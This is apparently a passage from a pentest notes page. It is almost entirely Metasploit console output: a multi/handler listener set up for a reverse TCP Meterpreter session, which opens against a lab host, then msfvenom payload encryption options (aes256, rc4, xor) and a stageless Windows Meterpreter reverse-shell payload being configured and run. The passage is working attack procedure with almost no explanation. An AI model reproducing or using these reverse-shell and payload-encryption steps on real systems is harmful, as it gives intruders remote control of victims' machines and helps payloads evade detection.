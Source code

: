 ```
msf6 exploit(multi/handler) > set lhost 192.168.50.118
lhost => 192.168.50.118
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.50.118:4444 
[*] Sending stage (200774 bytes) to 192.168.50.124
[*] Meterpreter session 1 opened (192.168.50.118:4444 -> 192.168.50.124:51703) at 2023-07-20 17:18:06 +0530
meterpreter > 
meterpreter >

```

### Encrypt

> Its a functionality which helps to encrypt packets levels.

```
msf6 exploit(multi/handler) > msfvenom --list encrypt
[*] exec: msfvenom --list encrypt
 
Overriding user environment variable 'OPENSSL_CONF' to enable legacy functions.
 
Framework Encryption Formats [--encrypt <value>]
================================================
 
    Name
    ----
    aes256
    base64
    rc4
    xor

```

{% hint style="info" %}
Stagless / Non Stagless Payload with Encryption
{% endhint %}

```
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp
payload => windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > options
 	
Module options (exploit/multi/handler):
 
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
 
 
Payload options (windows/meterpreter_reverse_tcp):
 
   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   EXITFUNC    process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                   no        Comma-separate list of extensions to load
   EXTINIT                      no        Initialization strings for extensions
   LHOST       192.168.50.118   yes       The listen address (an interface may be specified)
   LPORT       4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target
View the full module info with the info, or info -d command.
 
msf6 exploit(multi/handler) > run
```
